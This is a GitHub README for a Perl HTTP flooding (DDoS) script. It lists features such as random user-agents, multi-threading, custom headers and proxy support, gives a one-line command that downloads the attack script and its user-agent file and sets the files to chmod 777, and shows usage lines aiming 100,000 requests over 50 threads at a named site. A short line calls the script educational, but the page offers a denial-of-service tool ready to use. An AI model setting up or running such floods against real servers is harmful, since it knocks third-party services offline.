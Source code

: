 
# Script for HTTP DDoS Attack ↓

## Features

- Send request with Random User-agent, Read user-agent from Local file.
- multi-threading
- Easy to Customize for beginners
- customizable Headers
- Define Number of request to be send to target
- Can modify Delay btween next request
- HTTP/HTTPS proxy can be used with modification*
- Language: Perl
## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/http.pl && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/user.txt && yes | perl -MCPAN -e'install "LWP::Simple"' && yes | apt-get install libwww-perl && chmod 777 *
```
## Usage

```
perl http.pl --url http://dultr.in/ --requests 100000 --threads 50
perl http.pl --url <target_url> --requests <no_of_req> --threads <no_of_threads>
```
```
- script read user agent from a file "user.txt" in same directory! (Line22) for change 
name or the directory of user-agent file!
- To modify header add, delete -> check (line 43)
- Delay between next request (line 56), bydefault 0.1s
```
```
- This script purpose to understand the HTTP ddos, to understand how traffic flows,
- Support only Attack to HTTP url,
```

## Screenshot for understanding the Script workflow !

![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097327395826040984/Attacker_Server.png)

## Targeted Server
![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097328145188794651/Attacker_Server_1.png)

## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in
